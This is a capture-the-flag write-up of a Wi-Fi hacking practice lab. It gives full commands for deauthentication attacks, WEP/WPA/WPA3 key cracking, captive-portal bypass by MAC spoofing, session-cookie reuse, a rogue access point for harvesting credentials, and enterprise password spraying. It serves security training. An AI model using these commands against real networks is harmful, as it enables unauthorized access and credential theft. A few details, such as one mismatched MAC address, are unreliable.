

# WIFI HACKING

# **Introduction**

In this lab, we shall be doing wifi hacking from the [WifiChallenge Lab v2.1](https://lab.wifichallenge.com). We shall start by downloading the virtual machine from the [proton drive](https://drive.proton.me/urls/Q4WPB23W7R#Qk4nxMH8Q4oQ) provided to us from the site, here you can find the virtual machine as per the hypervisor you prefer to use.

## **00. What is the contents of the file /root/flag.txt on the VM?**

for the first session, after downloading the virtual machine and setting it up, we are given a pair of credentials for the `user` which is `user` as well. After logging in to the system we can get our flag in the root directory as per the hint given.



With that, we now have our first flag as shown below.


# RECON

## **01. What is the channel that the wifi-global Access Point is currently using?**

As per the question asked, we need to put our network card in network mode in order to use it for reconnaissance. For this section we shall use [airmon-ng](https://www.aircrack-ng.org/doku.php?id=airmon-ng) to put our network card in monitor mode and [airodump-ng](https://www.aircrack-ng.org/doku.php?id=airodump-ng) for capturing network traffic and scanning all the channels for it to be easier to identify the `wfi-global` .

We shall use the `wlan0` for monitoring.


Let us put the card into monitor mode using the syntax as shown in the documentation page but first we shall check running processes using the syntax `sudo airmon-ng check` as shown below.


we can kill them and put our interface into monitor mode using the command `sudo airmon-ng check kill` 


with that, we can now enable our interface into monitor mode using the command `sudo airmon-ng start wlan0


After we have enabled our interface for monitoring we can then start capturing the network traffic as we scan through for our asked wifi’s channel using airodump-ng, as shown below.

`sudo airodump-ng wlan0mon -w ~/VICTOR/captures --manufacturer --wps --band abg` 

where `-w` tells where we shall output our traffic, `--manufacturer` is used to `Display manufacturer from IEEE OUI list,` `--wps` is used to display wps information and `—band abg` is used to display `Band on which airodump-ng should hop` as shown in the [documentation](https://www.aircrack-ng.org/doku.php?id=airodump-ng).


we can now see our channel clearly.

## **02. What is the MAC of the wifi-IT client?**

Here we shall use airodump-ng and specify the channel of the wifi in order to get more detials of the wifi using the command `sudo airodump-ng wlan0mon -w ~/VICTOR/captures --manufacturer --wps --band abg --channel <channel number>` 


## **03. What is the probe of 78:C1:A7:BF:72:46**

To get the probe for the specified we shall use `airodum-ng` to scan the network again using the command we used first that is `sudo airodump-ng wlan0mon -w ~/VICTOR/captures --manufacturer --wps --band abg` and get the probe as shown below.


## **04. What is the ESSID of the hidden AP (mac F0:9F:C2:6A:88:26)?**

For this section, we shall use the [`mdk4`](https://github.com/aircrack-ng/mdk4) tool to perform a brute force to launch probes with each of the ESSID until the AP responds, however we shall need to modify our wordlist by embedding the word `wifi-` before the words as the other APs are named.

`cat ~/rockyou-top100000.txt | awk '{print "wifi-" $1}' > /home/user/VICTOR/captures/pass.txt`

First we shall capture the traffic using the command we used before in order for us to identify the channel to which the AP is on to use it to set for us to capture the traffic to perform a brute force attack on it to get the AP name using the commands shown below.

`iwconfig wlan0mon channel <channel number>` the iwconfig is used **to display and change the parameters of the network interface which are specific to the wireless operation, in this case we are setting the channel to that of the hidden AP.**

Afterwards we shall then brute force the captured traffic using `mdk4` as shown `mdk4 wlan0mon p -t F0:9F:C2:6A:88:26 -f pass.txt.` 

- **`mdk4`**:
    
    The name of the tool being run. MDK4 is commonly used for Wi-Fi testing and comes with several testing modes.
    
- **`wlan0mon`**:
    
    The network interface in **monitor mode** (important for injecting packets and performing wireless attacks). Replace `wlan0mon` with your interface name if it's different.
    
- **`p`**:
    
    This specifies the **Probe Request Flood mode** in MDK4. This mode sends a flood of probe requests, which can simulate many devices searching for networks, potentially overloading the target AP or causing disruptions.
    
- **`t F0:9F:C2:6A:88:26`**:
    
    The `t` option specifies the **target's MAC address**. In this case, the target MAC address is `F0:9F:C2:6A:88:26`.
    
- **`f pass.txt`**:
    
    The `f` option provides a **file containing SSIDs** (network names) or other parameters to use during the attack.
    
    In this case, the file `pass.txt` likely contains SSIDs that will be included in the probe requests to target the specific access point.
    


# OPN

## 05. What is the flag in the hidden AP router behind default credentials?

After we got our ESSID, we shall now try to connect to the network using [wpa_supplicant](https://wiki.archlinux.org/title/Wpa_supplicant),(utility for managing wireless network connections in Linux) from the terminal after creating a config file that will enable us to connect to the wifi, the contents of the file will be as shown below.

```jsx
network={
	ssid="$ESSID"
	key_mgmt=NONE
	scan_ssid=1
}
```

The above details mean the following.

- **`network={}`**:
    - This block defines a specific Wi-Fi network configuration.
- **`ssid="$ESSID"`**:
    - `ssid` specifies the **name of the Wi-Fi network** to connect to.
    - If you use `$ESSID`, it implies that `$ESSID` is a **variable** (e.g., set in your environment or script).
    - **Note**: `wpa_supplicant` does not directly interpret variables in the configuration file. You would need to preprocess the file or replace `$ESSID` with the actual network name (e.g., `ssid="MyNetwork"`).
- **`key_mgmt=NONE`**:
    - `key_mgmt=NONE` specifies that **no key management** is required for this network.
    - This typically indicates an **open network** (e.g., one without WPA/WPA2 encryption).
- **`scan_ssid=1`**:
    - `scan_ssid=1` tells `wpa_supplicant` to **actively scan** for the specified SSID.
    - This is useful for hidden networks (networks that don't broadcast their SSID).
    
    after we have created our file, we shall now try to connect to our wifi using `wpa_supplicant` using the syntax `wpa_supplicant -Dnl80211 -iwlan2 -c free.conf` and on another terminal we shall try to get an IP address from the connected wifi network using the `dhclient` using the command `dhclient wlan2 -v` as root user .
    
    The command `wpa_supplicant -Dnl80211 -iwlan2 -c free.conf` means as follows
    
    - **`wpa_supplicant`**:
        - This is the command-line tool for connecting to Wi-Fi networks. It's used to handle the WPA/WPA2 authentication process.
    - **`Dnl80211`**:
        - The `D` option specifies the **driver back-end** to be used.
        - `nl80211` is the modern driver interface for communicating with kernel-based Wi-Fi drivers, typically used in most Linux distributions.
        - Other options might include `wext` (deprecated) or hardware-specific back-ends.
    - **`iwlan2`**:
        - The `i` option specifies the **interface name** of the Wi-Fi network card you want to connect with.
        - In this case, the interface is `wlan2`. Replace this with your actual wireless interface (e.g., `wlan0` or `wlan1`) if necessary.
    - **`c free.conf`**:
        - The `c` option specifies the **configuration file** to use.
        - `free.conf` is the configuration file that contains the necessary details for connecting to the desired wireless network. This file typically includes:
            - The SSID (network name).
            - The security protocols (e.g., WPA2, PSK).
            - The pre-shared key or passphrase for the network.
    
    The command `dhclient wlan2 -v`  means
    
    - **`dhclient`**:
        - This is the DHCP client program on Linux systems. It requests network configuration parameters (like an IP address, subnet mask, gateway, DNS servers) from a DHCP server on the network.
    - **`wlan2`**:
        - The name of the **network interface** for which the DHCP request is being made. In this case, it is the `wlan2` interface (likely a wireless network adapter).
    - **`v`**:
        - Enables **verbose mode**, which provides detailed output about the process, such as:
            - Sending the DHCP request.
            - Responses received from the DHCP server.
            - Lease details (e.g., assigned IP, lease time, etc.).
            - Any errors encountered during the process.
    
    
    

The image above shows the wpa_supplicant running.


Here we have received an IP address from the network as `192.168.16.84` 

Once connected to the wifi network we can access the web portal from `192.168.16.1` and try to login as an admin user using some default credentials as `admin/admin` as most people tend to leave their default creds as they are.


After logging in using the creds we found, we now have our flag.

## 06. What is the flag on the AP router of the wifi-guest network?

For this challenge we shall begin by scanning the wifi-guest using airodump-ng as we did in the first challenge of recon in order to identify the channel on to which it is running on then try to access the admin page as we did in the previous task.


It is running on channel 6, we can now try and capture traffic going through channel 6 alone then create a .conf file that will allow us to connect to the wifi network, the config file will contain the name of the ESSID of the wifi and set `key_mgmt=NONE` as shown below.

```jsx
network={ 
	ssid="wifi-guest" 
	key_mgmt=NONE 
}
```

As seen below we have successfully acquired an IP address from the wifi network and we are able to access the web page but it seems we have a captive portal that we are required to bypass.


For us to bypass this portal, we will have to clone one of the `MAC addresses` connected to the wifi as shown below we have one.


`B0:72:BF:44:B0:49` 

we shall first stop the network manager then set the wlan2 interface down then change to the mac address we saw earlier using the commands below and retry again to connect to the wifi network as earlier.

```jsx
systemctl stop network-manager
ip link set wlan2 down
macchanger -m b0:72:bf:44:b0:49 wlan2
ip link set wlan2 up
```

we have now bypassed the portal as shown below.


I tried some default creds but they did not work, however, I decided to capture traffic using airodump-ng on the channel and go through it to see f there are any credentials that I can find on the capture file.


as shown above after capturing our traffic using the command `airodump-ng wlan0mon --manufacturer --wps -c6 -w /home/user/VICTOR/captures/OPN/` we can now go through our traffic and be able to get the password by going through the traffic using wireshark then get our credentials for  logging in to the web page as admin.


and we have our flag.

# WEP

## **07. What is the flag on the wifi-old AP website?**

This challenge was quite easy as we can  get the cahnnel and BSSID of the wifi using airodump-ng and try get the key using [besside-ng](https://www.aircrack-ng.org/doku.php?id=besside-ng) as shown below.


Then we can use besside-ng to get the key, as this tool does the heavy work automatically and gets the password for us, we shall use the syntax `besside-ng -c 3 -b F0:9F:C2:71:22:11 wlan2 -v` .

- **`besside-ng`**:
    - The main tool being run. It automates the process of:
        - Scanning for networks.
        - Associating with access points.
        - Capturing WPA/WPA2 handshakes.
        - Cracking WEP-encrypted networks.
- **`c 3`**:
    - The `c` option specifies the **Wi-Fi channel** to focus on.
    - In this case, it restricts the tool to operate on **channel 3**, rather than scanning all available channels.
- **`b F0:9F:C2:71:22:11`**:
    - The `b` option specifies the **MAC address of the target access point (AP)**.
    - This ensures that besside-ng only targets the specific AP with MAC address `F0:9F:C2:71:22:11`.
- **`wlan2`**:
    - The **wireless interface** to be used for the attack.
    - This interface must support monitor mode and packet injection.
    - Ensure `wlan2` is already in monitor mode (e.g., using `airmon-ng start wlan2`).
- **`v`**:
    - Enables **verbose mode**, which provides detailed output during execution.
    - Useful for monitoring the tool’s progress and troubleshooting any issues.

We now have the key as shown below for the wifi network.


Now as WEP has a weaker security for wifi, we can use the key to create a .conf file as the intial challenge and connect to the network using wpa_supplicant and get our IP address using dhclient on another terminal as we run it as root user, the contents of the .conf file shall be.

```jsx
network={
  ssid="wifi-old"
  key_mgmt=NONE
  wep_key0=$PASSWORD
  wep_tx_keyidx=0
}
```

The contents of the file mean as explained below.

- **`network={}`**:
    - Defines a specific Wi-Fi network to connect to. Each `network` block contains settings for a single network.
- **`ssid="wifi-old"`**:
    - Specifies the **SSID** (network name) of the Wi-Fi network you want to connect to.
    - In this case, the network name is **`wifi-old`**.
- **`key_mgmt=NONE`**:
    - Specifies the **key management protocol**.
    - `NONE` indicates there is **no WPA or WPA2 encryption**. This is common for WEP networks or open networks.
    - Instead of WPA or WPA2, the network uses the outdated **WEP encryption**.
- **`wep_key0=$PASSWORD`**:
    - Defines the WEP **key** (password) for the network.
    - The key is expected to be supplied in this placeholder `$PASSWORD`. However:
        - `wpa_supplicant` does not resolve variables directly in the configuration file, so you need to replace `$PASSWORD` with the actual WEP key (e.g., `wep_key0=12345`).
    - The key can be specified as:
        - A **hexadecimal string** (e.g., `wep_key0=6162636465`).
        - A **quoted ASCII string** (e.g., `wep_key0="abcde"`).
- **`wep_tx_keyidx=0`**:
    - Specifies which **WEP key index** to use for transmission.
    - WEP supports multiple keys (up to 4, indexed from 0 to 3).
    - `wep_tx_keyidx=0` means the first key (`wep_key0`) will be used for encrypting outgoing packets.


as  seen above we have successfully connected to the wifi network and now we can try and access the webpage at 192.168.1.1


we have our flag now.

# PSK

## **08. What is the wifi-mobile AP password?**

This challenge we have to find the password for the PSK wifi network, here we shall monitor the traffic using airodump-ng and wait for a client to connect or to force a deauth attack with [aireplay-ng](https://www.aircrack-ng.org/doku.php?id=aireplay-ng) but first we have to identify the channel of the wifi network. 


It is channel 6, we can now capture traffic on the channel as we perform a deauth attack on another terminal using aireplay-ng to get a handshake that we can use to get the password for the wifi.

The commands we shall use in parallel are as follows.

`aireplay-ng -0 10 -a F0:9F:C2:71:22:12 wlan0mon` 

- **`aireplay-ng`**:
    - This is the tool being executed. It is used to inject packets into a wireless network for various purposes (e.g., deauthentication, fake authentication, ARP request replay).
- **`0`**:
    - Specifies a **deauthentication attack mode**.
    - The tool sends deauthentication packets to disconnect clients from the target network.
- **`10`**:
    - Indicates the **number of deauthentication packets** to send.
    - In this case, `10` deauthentication packets will be sent. You can specify `0` to send packets continuously until manually stopped.
- **`a F0:9F:C2:71:22:12`**:
    - Specifies the **MAC address of the target access point (AP)**.
    - In this case, the deauthentication packets will be directed at the AP with MAC address **`F0:9F:C2:71:22:10`**.
- **`wlan0mon`**:
    - Specifies the **wireless interface in monitor mode**.
    - The interface (`wlan0mon`) must be in monitor mode, which is required to send raw packets.
    - Use `airmon-ng start wlan0` to enable monitor mode before running this command
    
    `airodump-ng wlan0mon -w ~/wifi/scanc6 -c 6 --wps`


as seen above we have performed a deauth attack(an EAPOL traffic indicates that we have captured a successful handshake from the wifi network) using aireplay-ng and we wait a little longer for the airodump-ng to capture some traffic that we can use  [aircrack-ng](https://www.aircrack-ng.org/doku.php) to try and get the password using the wordlist top100000.txt.

`aircrack-ng  -w rockyou-top100000.txt -- '-01.cap'` 


we have our key.

## **09. What is the IP of the web server in the wifi-mobile network?**

For this challenge we shall use [airdecap-ng](https://www.aircrack-ng.org/doku.php?id=airdecap-ng) to decipher our traffic we captured earleir as we now have the key to decipher our traffic then open the deciphered file using wireshark to get the IP of the webserver.

The command we shall use to decipher our traffic is as follows.

`airdecap-ng -e wifi-mobile -p $PASSWORD -- '-01.cap'` 

### **1. `airdecap-ng`**:

- The tool decrypts WEP, WPA, or WPA2-encrypted packet captures (`.cap` files) based on the network's encryption key or passphrase.

### **2. `e wifi-mobile`**:

- Specifies the **ESSID (network name)** of the target Wi-Fi network.
- In this case, the ESSID is `wifi-mobile`. It helps the tool identify which network's packets to decrypt, especially when multiple networks are present in the capture file.

### **3. `p $PASSWORD`**:

- **`p`** specifies the **password (or passphrase)** of the target Wi-Fi network.
- **`$PASSWORD`** is a placeholder variable that stores the actual Wi-Fi passphrase. If the variable contains the correct passphrase, airdecap-ng will use it to decrypt the encrypted packets in the capture file.

### **4. `-`**:

- The `-` signals the end of options. Anything after `-` is treated as an argument (like file names), even if it starts with a ``.

### **5. `'-01.cap'`**:

- The name of the capture file that contains the encrypted packets to decrypt.
- The file name `01.cap` starts with a dash (``), which can confuse tools into interpreting it as a flag. Using `-` or prefixing the file name with `./` ensures it's treated as a file.


we can now open the deciphered traffic and get the IP of the webserver.


we have our webserver IP as shown below


## **10. what is the flag after login in wifi-mobile?**

**As seen from the hint given, we are required to use cookies.**			


Going through the decrypted traffic, we saw a cookie from the GET request sent to the web server that we can use to gain the user flag from the website. 


We shall use wpa_supplicant and dhclient as we did earlier in order to be able to log in to the website.

The contents of our configure file shall be as follows.

```jsx
network={
    ssid="wifi-mobile"
    psk="$PASSWORD"
    scan_ssid=1
    key_mgmt=WPA-PSK
    proto=WPA2
}PHPSESSID=97qfe2c37hso8725c1p5reft7s
```

### **1. `network={ ... }`**:

- Defines a network block, which contains all the settings required to connect to a specific Wi-Fi network.

### **2. `ssid="wifi-mobile"`**:

- Specifies the **SSID (Service Set Identifier)** of the Wi-Fi network.
- In this case, the SSID is `wifi-mobile`.

### **3. `psk="$PASSWORD"`**:

- Specifies the **pre-shared key (PSK)**, which is the password for the Wi-Fi network.
- **`$PASSWORD`** is a placeholder variable. Replace it with the actual passphrase (e.g., `psk="mypassword123"`).
- The PSK is used for WPA/WPA2-Personal authentication.

### **4. `scan_ssid=1`**:

- Tells the device to actively **scan for the network**, even if the SSID is hidden.
- If the access point does not broadcast its SSID, setting this to `1` enables the client to detect and connect to it.

### **5. `key_mgmt=WPA-PSK`**:

- Specifies the **key management protocol** used by the network.
- **`WPA-PSK`** indicates WPA/WPA2 with a Pre-Shared Key (PSK) for authentication.

### **6. `proto=WPA2`**:

- Specifies the **protocol** to be used for encryption and authentication.
- **`WPA2`** is used here, which is a secure protocol based on AES encryption.
- You could also specify `WPA` for legacy networks.

As shown below, we have successfully been given an IP to the network we can try to access the webpage and edit the cookie to get the flag.


we have our flag as shown below.


## **11. Is there client isolation in the wifi-mobile network?**

**For this challenge we shall use [arp-scan](https://www.kali.org/tools/arp-scan/) to scan the network for more hosts though the interface we have connected to the network using the commmand `sudo arp-scan -I wlan2 -l`** 

### **`arp-scan`**:

- **`arp-scan`** is a tool used to identify all active devices on a local network by sending **ARP (Address Resolution Protocol)** requests.
- It works at the data link layer (Layer 2), making it highly effective for discovering devices on the same subnet.

### **`I wlan2`**:

- **`I`** specifies the network interface to use for the scan.
- In this case, `wlan2` is the wireless interface you want to scan with.

### **`l`**:

- **`l`** (lowercase "L") tells **`arp-scan`** to scan the **local subnet** (determined by the interface's IP address and subnet mask).
- For example, if the interface `wlan2` is on `192.168.1.0/24`, it will scan all IPs in that range (from `192.168.1.1` to `192.168.1.254`).

After scanning the network we fingd the following clients on the network.

```jsx
user@WiFiChallengeLab:~/VICTOR/captures/psk$ sudo arp-scan -I wlan2 -l
Interface: wlan2, type: EN10MB, MAC: 02:00:00:00:02:00, IPv4: 192.168.2.84
Starting arp-scan 1.9.7 with 256 hosts (https://github.com/royhills/arp-scan)
192.168.2.1	f0:9f:c2:71:22:12	Ubiquiti Networks Inc.
192.168.2.7	28:6c:07:6f:f9:43	XIAOMI Electronics,CO.,LTD
192.168.2.7	28:6c:07:6f:f9:44	XIAOMI Electronics,CO.,LTD (DUP: 2)
192.168.2.8	28:6c:07:6f:f9:43	XIAOMI Electronics,CO.,LTD
192.168.2.8	28:6c:07:6f:f9:44	XIAOMI Electronics,CO.,LTD (DUP: 2)

5 packets received by filter, 0 packets dropped by kernel
Ending arp-scan 1.9.7: 256 hosts scanned in 2.225 seconds (115.06 hosts/sec). 5 responded

```

we can try and curl one of the host and see if we can get the flag.


by curling the host `192.168.2.8` we get the user flag.


# SAE

## **13. What is the flag on the wifi-management AP website?**

Even in WPA3 networks, it’s still possible to attempt a brute-force attack to discover the password. A tool called **"[wacker](https://github.com/blunderbuss-wctf/wacker)"** can be used for this purpose. It allows us to repeatedly test different password combinations against the network until the correct one is found.

However, keep in mind that WPA3 includes features like SAE (Simultaneous Authentication of Equals), which makes brute-forcing much more challenging by limiting the speed of attempts and using modern cryptographic techniques. Tools like **wacker** exploit specific vulnerabilities or rely on scenarios where the WPA3 implementation might not be as secure as intended.

First we will have to get the wifi network bssid number and frequency that we can use together with wacker to get the wifi password then use wpa_supplicant to be able to access the website to get the flag.


we  now have the BSSID number `F0:9F:C2:11:0A:24` we can now use the BSSID to get the password using wacker with the syntax  `./wacker.py --wordlist ~/rockyou-top100000.txt --ssid wifi-management --bssid F0:9F:C2:11:0A:24 --interface wlan2 --freq 2462` 

here is the breakdown of the command

- **`./wacker.py`**
    - This runs the Python script `wacker.py`, which is likely a custom or specialized tool for Wi-Fi brute-forcing or attack tasks.
- **`-wordlist ~/rockyou-top100000.txt`**
    - Specifies the path to the wordlist containing potential passwords to test.
    - In this case, it uses `rockyou-top100000.txt`, a popular subset of the `rockyou.txt` password dictionary file, which contains 100,000 commonly used passwords.
- **`-ssid wifi-management`**
    - Indicates the target SSID (Wi-Fi network name) you are attacking.
    - Here, the network is called `wifi-management`.
- **`-bssid F0:9F:C2:11:0A:24`**
    - Specifies the target’s BSSID, which is the unique MAC address of the access point.
    - This ensures the attack focuses on the correct network, even if there are other networks with similar SSIDs nearby.
- **`-interface wlan2`**
    - Defines the wireless interface (network adapter) that will be used for the attack.
    - In this example, the wireless adapter is `wlan2`.
- **`-freq 2462`**
    - Specifies the frequency of the Wi-Fi channel in MHz.
    - `2462 MHz` corresponds to **channel 11** in the 2.4 GHz band. The tool will tune into this frequency to communicate with the target network.


we  have our password, we can use it now to create a config file that we can use with wpa_supplicant, the following is the content of the file

```jsx
network={
  ssid="wifi-management"
  psk="$PASSWORD"
  key_mgmt=SAE
  scan_ssid=1
  ieee80211w=2
}
```

the file content means as follows

- **`network={...}`**
    - This block defines the configuration for a specific Wi-Fi network. Multiple `network` blocks can exist in a configuration file to manage multiple networks.
- **`ssid="wifi-management"`**
    - Specifies the **SSID** (Service Set Identifier) of the Wi-Fi network to connect to.
    - Here, the network name is `wifi-management`.
- **`psk="$PASSWORD"`**
    - Indicates the **pre-shared key** (Wi-Fi password) required to connect to the network.
    - The `$PASSWORD` placeholder would typically be replaced with the actual password in plaintext or a hashed version (depending on your tool).
- **`key_mgmt=SAE`**
    - Specifies the **key management protocol** to use for authentication.
    - `SAE` (Simultaneous Authentication of Equals) is the protocol used in **WPA3-Personal** networks. It enhances security by preventing offline dictionary attacks and improving password-based authentication.
- **`scan_ssid=1`**
    - Enables scanning for **hidden networks**.
    - A hidden SSID will not broadcast its name, so enabling `scan_ssid=1` allows the client to actively probe for the specified SSID.
- **`ieee80211w=2`**
    - Configures **Management Frame Protection (MFP)**.
    - **Values**:
        - `0`: Disabled (not recommended).
        - `1`: Optional.
        - `2`: Required (mandatory for WPA3).
    - `ieee80211w=2` ensures that MFP is enforced, providing additional protection against deauthentication attacks, which is required for WPA3 networks.


We can now access the AP website at 192.168.14.1 as seen below and get our flag.


# Recon MGT

## **15. What is the domain of the users of the wifi-regional network?**

In management (MGT) networks, it's possible for misconfigured users to send their **identity (username)** in plain text before the secure TLS tunnel is established. This can expose sensitive information. Using a tool like **`airodump-ng`**, we can passively capture this data without actively interfering with the network.

Here’s how it works:

You simply run **`airodump-ng`** on the correct channel of the network and patiently wait for clients to connect. As users attempt to authenticate, their identity information might be visible in the captured packets if the network or client devices are misconfigured. This is a good example of why properly securing WPA2/WPA3 Enterprise networks is so important.

However, we shall start first by identifying the channel of the wifi we are to connect to as shown below.


It is on channel 44, we can now try and capture traffic on the channel as we wait for a client to connect to the network. After we capture the traffic, as from the hint, we can use [wifi_db](https://github.com/r4ulcl/wifi_db) to get the captured data from ariodump-ng in an arranged format that we can access from the database

as shown below.


The syntax used for dispalying the data in sqlite is as follows `python3 wifi_db.py -d wifi.sqlite /home/user/VICTOR/captures/psk/MGT` here is the explanation of the command

- **`python3 wifi_db.py`**
    
    This indicates that you're running a Python script named `wifi_db.py` using Python 3. The script likely processes Wi-Fi-related data and interacts with a database.
    
- **`d wifi.sqlite`**
    
    The `-d` option specifies the database file to use.
    
    - `wifi.sqlite` is an SQLite database file, which is a lightweight, file-based database.
    - The script will likely insert, query, or analyze data within this database.
- **`/home/user/VICTOR/captures/psk/MGT`**
    
    This is the directory containing input data (e.g., capture files) for the script to process.
    
    - The folder `/home/user/VICTOR/captures/psk/MGT` likely contains capture files related to PSK (Pre-Shared Key) or MGT (Management) Wi-Fi networks.
    - These files might include `.cap`, `.pcap`, or other formats used for Wi-Fi packet captures.

## **16. What is the email address of the servers certificate?**

When establishing a TLS tunnel between an MGT network and a client, the access point (AP) sends its certificate to the client in plain text. This means that anyone monitoring the communication can see the certificate. While this might seem harmless, it can actually provide valuable information. For example, an attacker could use this certificate to create a fake version with the same fields, which can be used in a RogueAP attack. Additionally, the certificate might reveal details like the corporate domain, internal email addresses, or other relevant information about the AP or the organization.

To explore these certificates, we can use a tool like [`pcapFilter.sh`](https://gist.github.com/r4ulcl/f3470f097d1cd21dbc5a238883e79fb2), which helps display the certificates used by APs operating with MGT.

The syntax to run the script is as follows `bash pcapFilter.sh -f '-02.cap' -C` here is a breakdown of the command

- **`pcapFilter.sh`**
    
    This is the script being executed. It is a custom or third-party tool designed to process `.cap` files (packet captures) and filter specific information, such as certificates.
    
- **`f '-02.cap'`**
    - The `f` option specifies the input file for the script.
    - `-02.cap` is the  packet capture file containing network traffic data.
- **`C`**
    
    This option tells the script to filter and display certificates. Certificates are often sent during the handshake process of networks using MGT or enterprise-level WPA protocols (e.g., WPA2-Enterprise). This data can provide insights into APs' configurations or help in crafting attacks like RogueAP or MITM.
    


## **17. What is the EAP method supported by the wifi-global AP?**

When testing the security of a network using EAP (Extensible Authentication Protocol), it's important to understand what authentication methods the network's AP (Access Point) supports. Once you've identified a valid user, you can probe the network by forcing different EAP authentication methods. This is where a tool like [**EAP_buster**](https://github.com/blackarrowsec/EAP_buster) becomes valuable.

`bash ./EAP_buster.sh wifi-global 'GLOBAL\GlobalAdmin' wlan`

- **`bash ./EAP_buster.sh`**
    - This runs a Bash script named **`EAP_buster.sh`** located in the current directory (`./`).
    - The script is likely designed to test or exploit Extensible Authentication Protocol (EAP) configurations on Wi-Fi networks.
- **`wifi-global`**
    - This is the **SSID** (Wi-Fi network name) of the target network.
    - The script will perform its operations on this specific network.
- **`'GLOBAL\GlobalAdmin'`**
    - This represents the **identity** or **username** being sent to the network during EAP authentication.
    - The format **`DOMAIN\User`** (e.g., `GLOBAL\GlobalAdmin`) suggests the network is part of a corporate domain, and the user identity is tied to this domain.
- **`wlan1`**
    - This specifies the **wireless interface** to be used by the script.
    - The interface **`wlan1`** must be in monitor mode or capable of interacting with the target network.

Below is how the output of the command looks like


however, we could still identify the EAP method supported from hte database we got earlier


# MGT

## **18. What is Juan's flag on the wifi-corp AP website?**

To target a misconfigured client on an MGT network, you can set up a Rogue Access Point (RogueAP) that mimics the legitimate network by using the same ESSID and configuration. This RogueAP should use a self-signed certificate, ideally replicating the details of the legitimate certificate to appear convincing if the client manually checks it. A tool like [**`eaphammer`**](https://github.com/s0lst1c3/eaphammer) can simplify this process.

`python3 ./eaphammer -i wlan3 --auth wpa-eap --essid wifi-corp --creds --negotiate balanced`

- **`python3 ./eaphammer`**:
    
    This runs the `eaphammer` script using Python 3. `eaphammer` is a tool designed to perform attacks on WPA-Enterprise networks, including setting up RogueAPs and credential harvesting.
    
- **`i wlan3`**:
    
    Specifies the wireless interface (`wlan3`) to be used for creating the RogueAP. Ensure this interface supports monitor mode and packet injection.
    
- **`-auth wpa-eap`**:
    
    Indicates the type of authentication used by the target network, in this case, WPA-Enterprise (WPA-EAP). This type of network uses protocols like PEAP or EAP-TLS for authentication.
    
- **`-essid wifi-corp`**:
    
    Sets the ESSID (network name) for the RogueAP to `wifi-corp`, matching the name of the legitimate network. This is essential for deceiving clients into connecting to the RogueAP.
    
- **`-creds`**:
    
    Enables credential harvesting. The RogueAP will attempt to collect usernames and passwords or authentication tokens when a client connects and tries to authenticate.
    
- **`-negotiate balanced`**:
    
    This sets the TLS negotiation strategy for the RogueAP to "balanced." It aims to balance security and compatibility when negotiating the TLS handshake with clients. This approach helps to mimic a real access point more convincingly.
    


Using **`airodump-ng`**, we can identify the MAC addresses of the clients we want to target for a deauthentication attack. To ensure effectiveness, we execute this attack on both clients simultaneously. Since there are two access points (APs), the attack needs to target both of them. This is because disconnecting a client from one AP might cause it to reconnect to the other, rather than connecting to our Rogue Access Point (RogueAP).


using the commands

```bash
iwconfig wlan0mon channel 44
aireplay-ng -0 0 -a F0:9F:C2:71:22:1A wlan0mon -c 64:32:A8:07:6C:40

in another shell

airmon-ng start wlan1
iwconfig wlan1mon channel 44
aireplay-ng -0 0 -a F0:9F:C2:71:22:15 wlan1mon -c 64:32:A8:07:6C:40
```


## **19. What is CONTOSO\test flag on the wifi-corp AP website?**

In this challenge, we already know the username, so we perform a brute force attack using the **rockyou** wordlist. To achieve this, we utilize a tool called **air-hammer**. It’s crucial to note that having the domain information is essential for this attack to work effectively. First we shall put our user in a text file and perform the bruteforce attack as shown below.

```jsx
echo 'CONTOSO\test' > test.user
./air-hammer.py -i wlan3 -e wifi-corp -p ~/rockyou-top100000.txt -u test.user
```

- **`./air-hammer.py`**:
    
    This runs the `air-hammer` script, a tool used for performing brute-force attacks on WPA/WPA2 Enterprise networks.
    
- **`i wlan3`**:
    
    Specifies the wireless network interface to be used for the attack. In this case, `wlan3` is the interface where the attack will be executed. Ensure this interface supports monitor mode.
    
- **`e wifi-corp`**:
    
    Indicates the target network's ESSID (Extended Service Set Identifier), which is the name of the Wi-Fi network you're attacking. Here, the target network is `wifi-corp`.
    
- **`p ~/rockyou-top100000.txt`**:
    
    Specifies the path to the password list file (wordlist) used for brute-forcing. In this case, it points to `rockyou-top100000.txt`, a subset of the popular `rockyou` wordlist containing the top 100,000 most common passwords.
    
- **`u test.user`**:
    
    Provides the username for the attack. Here, the username is `test.user`, which is necessary since the attack targets WPA/WPA2 Enterprise networks that rely on usernames and passwords for authentication.
    


with the password we have found we can now create a config file that we can use to connect to the network in order for us to access the webpage and get our flag.

Here is the content of the config file

```jsx
network={  
  ssid="wifi-corp"  
  scan_ssid=1  
  key_mgmt=WPA-EAP  
  identity="CONTOSO\test"  
  password="PASSWORD"  
  eap=PEAP  
  phase1="peaplabel=0"  
  phase2="auth=MSCHAPV2"  
}
```

with that we are now provided with an IP address as shown below.


after accessing the webpage, I used the password and username of test to be able to get the flag.


## **20. What is the flag for the user with pass 12345678 on the wifi-corp AP?**

This challenge is similar to the previous one, however for this one we shall perform a password spray attack in order to get the user and get our flag. First we will have to customize our word-list as shown below then perform the password spray attack.

```jsx
cat ~/top-usernames-shortlist.txt | awk '{print "CONTOSO\\" $1}' > ~/top-usernames-shortlist-contoso.txt
```

and now we shall perform the password spray attack

`./air-hammer.py -i wlan4 -e wifi-corp -P 12345678 -u ~/top-usernames-shortlist-contoso.txt` 

we found our user as shown below.


then edited our previous config file to use to access the website and we got our flag after logging to the website with the user’s credentials.


